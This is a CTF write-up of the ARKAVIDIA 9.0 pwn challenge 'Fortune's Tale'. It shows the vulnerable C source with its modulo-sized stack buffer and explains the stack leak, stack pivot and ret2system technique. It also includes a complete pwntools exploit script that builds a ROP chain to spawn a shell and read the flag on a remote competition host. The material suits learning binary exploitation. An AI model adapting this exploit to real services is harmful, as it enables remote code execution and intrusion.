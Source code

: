 ```yaml
---
title: "CTF ARKAVIDIA 9.0 Qual - Fortune's Tale [WRITE UP]"
tags:
    - Pwn
    - BOF
    - Stack Pivot
    - Ret2system
category: "CTF National"
date: "2025-03-16 10:04:20"
thumbnail: "https://hazy0189.github.io/img/CTFNational/ARKAVIDIA_9.0/Logos.svg"
---
```


This is a National CTF Challenge, i only solve one but might as well make a write up for fun :)

# Pwn - Fortune's Tale

## Introduction 

![alt](../../../img/CTFNational/ARKAVIDIA_9.0/FortuneTale.png)

## Source Code

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define MAX_SIZE 300


void init()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}


int main()
{
    init();
    bool end = false;
    while (!end)
    {
        int choice;
        printf("1. Take a fortune\n"
               "2. Share a story\n"
               "3. Exit\n"
               "> ");
        scanf("%d%*c", &choice);
        switch (choice)
        {
        case 1:
            system("fortune");
            break;
        case 2: {
            int size;
            printf("Size: ");
            scanf("%d%*c", &size);
            char buf[size % MAX_SIZE]; #VULN
            printf("Text: ");
            read(0, buf, size);
            write(1, buf, size);
        }
        break;
        case 3: {
            end = true;
        }
        break;
        default:
            printf("Invalid choice\n");
        }
    }
}
```

## Summary

Make `buf` size the same or bigger then `MAX_SIZE` to leak stack and make it buffer overflow. Than use stack leak with fill buffer null byte to fix pivoting stack return. 

## Solution

Given a statically linked binary chall using musl libc and all live protection with Partial Relro.

![alt](/img/CTFNational/ARKAVIDIA_9.0/Protection.png)

It can be seen that there are 3 options containing:
- The first option is to run the `system("fortune")` //Not Important
- The second option is to declare a variable with size % `MAX_SIZE`, then read as much size and write to stdout as much size as (just like regular print)
- The third option exits the menu to be used for RIP control

So in option 2 if you provide an input of `MAX_SIZE` which becomes 0, when reading as many as 300 becomes a buffer overflow. For the leak address, you can declare a variable size `MAX_SIZE` so that it becomes a `char buf[0]` and after that is the content of the stack address that can be used as a leak. Next, set the breakpoint after the exit option and analyze what was done.

![alt](/img/CTFNational/ARKAVIDIA_9.0/AfterExit.png)

It can be seen that when choosing the exit option, the instructions to be carried out
Set `eax = 0`
`esp - &[ebp-0xc]`
`pop ecx` (Important where to control the return later)
`pop ebx`
`pop esi`
`pop ebp`
`esp - &[ecx - 4]`
To operate an `eip`, a true `esp` is required. `esp` will change depending on the content of the first `ebp` and `ecx`. To make it easier, i padded until `pop ecx` and set:
`ebp - 0xc = 0`
`ecx - 4 = stack leak`
The padding offset `\x00` is at 44 for `pop ecx` and the rest I spam ret2system to get the shell because in the binary there is a `system` function and the `/bin/sh` string.

### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "20.195.43.216", 8001


pid = None


def gdbscript():
    global pid
    gdbscript = f'''
    init-pwndbg
    set sysroot /proc/{pid}/root
    break *main+377
    break *main+362
    c
    '''.format(**locals())
    return gdbscript


def initialize(argv=[]):
    global pid
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript())
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./chall"]).recvall().strip().decode()
        attach(int(pid), gdbscript=gdbscript(), sysroot=f"/proc/{pid}/root", exe='chall')
        return p
    else:
        return process([exe] + argv)


def exploit():
    global io
    io = initialize()
    with log.progress("Leak address"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        io.sendlineafter("Text: ", "")
        io.recv(1)
        leak = io.recvuntil("1. Take a fortune")
    for i in range(40):
        log.info("Leak %#d: %#x", i+1, u32(leak[i*4:(i+1)*4]))
    stack = u32(leak[34*4:35*4]) << 8
    elf.address = (u32(leak[17*4:18*4]) << 8) - 0x10f00
    log.info("Stack: %#x", stack)
    log.info("ELF: %#x", elf.address)
    with log.progress("BOF to win"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        rop = ROP(elf)
        rop.system(next(elf.search(b"/bin/sh\x00")))
        print(rop.dump())
        payload = rop.chain()
        io.sendlineafter("Text: ", b"\x00"*44 + p32(stack) + p32(0) + p32(0) + p32(0) + payload*10)
    io.sendlineafter("> ", b"3")
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == '__main__':
    exploit()
```

### Flag

`ARKAV{__pwn__no__akachan__}`